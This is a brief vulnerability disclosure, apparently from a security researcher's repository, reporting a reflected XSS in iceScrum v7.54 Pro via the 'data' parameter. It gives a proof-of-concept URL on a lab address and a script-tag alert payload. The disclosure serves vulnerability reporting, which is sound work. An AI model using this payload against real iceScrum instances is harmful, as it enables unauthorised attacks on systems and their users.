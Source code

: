 
Vulnerability: Reflected XSS via data parameter

URL: http://192.168.124.128/textileParser?data=test<script>alert(1)</script>

Payload: test<script>alert(1)</script>

Action to trigger: None

Version: ‎v7.54 Pro

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data

Vulnerability Location:

Vendor Website: https://www.icescrum.com/


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/icescrum__v7.54_Reflected_XSS_via_data_parameter.gif)
